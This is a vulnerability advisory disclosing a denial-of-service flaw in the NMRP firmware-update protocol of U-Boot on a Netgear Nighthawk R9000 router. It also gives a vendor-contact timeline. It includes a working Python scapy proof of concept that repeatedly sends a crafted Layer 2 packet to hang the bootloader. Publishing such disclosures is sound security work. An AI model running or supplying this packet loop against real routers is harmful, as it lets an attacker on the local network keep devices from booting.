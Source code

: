 # Denial of Service in NMRP Protocol

Published: April 1, 2021

CVSS:3.0/AV:A/AC:H/PR:N/UI:N/S:C/C:N/I:N/A:H [6.1]

# Prior Art

[http://www.chubb.wattle.id.au/PeterChubb/nmrp.html](http://www.chubb.wattle.id.au/PeterChubb/nmrp.html)

[https://github.com/jclehner/nmrpflash](https://github.com/jclehner/nmrpflash)

## Overview

The NMRP protocol is a debug feature used to update firmware images on Netgear Routers over the LAN.  This protocol does not require authentication.  NMRP is a Layer 2 protocol based on Ethernet.  The NMRP daemon starts for three seconds before the U-Boot bootloader begins the boot process of the primary Linux operating system. This is evident by checking the `bootcmd` environment variable within U-Boot:

```
ALPINE_DB> printenv bootcmd
bootcmd=nmrp;run check_dni_image;run bootargsnand;qca8337_init_one; ledtoggle;sleep 1;run bootnand
```

This is the version of U-Boot testing was completed against as output from the U-Boot bootloader:

```
U-Boot 2015.01-gd836bbb (Jul 22 2016 - 13:32:00)
```

The specific device used for testing was a Netgear Nighthawk R9000 (x10) router.

## Vulnerability

Multiple memory corruption issues exist within the NMRP protocol implementation within U-Boot. Any of these vulnerabilities can be exploited to cause the bootloader to hang and no longer accept input from either the network or the primary UART console.  The only option is to cut the power in order to restart the device. This results in preventing the operating system from loading and thus the device being operable.  An attacker with a wired LAN connection can repeatedly emit these malicious packets so that every time the device attempts to boot, the vulnerability is triggered and the device doesn't boot into Linux.  The end result is an attacker on the wired LAN can prevent the router from ever achieving an operational state.

## Proof of Concept

A python-based proof of concept script is provided to demonstrate the vulnerability. You will need the `scapy` package installed in order to run this script.  `scapy` can be installed with pip: `pip3 install scapy`. Additionally, the script will need to be run with root privileges in order to send layer 2 packets.

```python
from scapy.all import *
import time

SRC_MAC_ADDRESS = "dc:a6:32:1b:1d:c6"
DST_MAC_ADDRESS = "cc:40:d0:5d:a2:84"

pkt = Ether(src=SRC_MAC_ADDRESS, dst=DST_MAC_ADDRESS, type=0x912) / b'\x00\x00\x01\x00\x00\x0e\x00\x01\x00\x00NTGR\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

while True:
  sendp(pkt, iface='eth0') # change iface to match ethernet NIC connected to router.
  time.sleep(0.95)
```

This vulnerability works by setting the options length to `0x0000` for the initial advertisement packet that is sent to initiate the firmware upload process. Note that you will need to change the `SRC_MAC_ADDRESS` and `DST_MAC_ADDRESS` variables to match your lab configuration, and you may need to change the value for `iface` in the `sendp` invocation to match your ethernet adapter which is connected to the router. The ethernet connection must be on the first ethernet port on the router.

## Extrapolation

During testing, many different packets were crafted and sent to the device.  Some crafted packets resulted in an error message and subsequent device reload. The aforementioned proof of concept is not the only packet which results in a device hang; there were too many combinations to list individually in this write up.  It is recommended that the vendor review the source code for the NMRP protocol and conduct an internal audit for additional memory corruption issues.

## Time Line

* January 31st, 2021: Notified Vendor of Vulnerability - stated intent to disclose April 1st, 2021.
* February 07, 2021: No response, sent reminder email asking for acknowledgement.
* February 15, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: Tweeted @NETGEAR to attempt contact. [https://twitter.com/nstarke/status/1363552292729946113](https://twitter.com/nstarke/status/1363552292729946113)
* March 21, 2021: No response, sent another reminder email asking for acknowledgement.
* March 21, 2021: Tweeted @NETGEAR again to attempt contact. [https://twitter.com/nstarke/status/1373701891801104385](https://twitter.com/nstarke/status/1373701891801104385)
* March 24, 2021: Received tweet from @NETGEAR_UKI directing me to their bug bounty program. [https://twitter.com/NETGEAR_UKI/status/1374834049483599872](https://twitter.com/NETGEAR_UKI/status/1374834049483599872)
* March 24, 2021: Responded saying I cannot disclose through the bug bounty program.  [https://twitter.com/nstarke/status/1374834668177096705](https://twitter.com/nstarke/status/1374834668177096705)
* April 1, 2021: Public Disclosure
* April 2, 2021: Received email from Netgear apologizing for miscommunication and thanking.

## Revision History

4/1/2021 - Initial Release

4/1/2021 - Updating CVSS Score (thanks @ReverseICS).

4/1/2021 - Fixed typo in anticipated disclosure date (Thanks Mulbrook).

4/1/2021 - Fixing another typo in time line (Thanks Mulbrook).

4/5/2021 - Updated Timeline to reflect Netgear Contact.

[Back](/)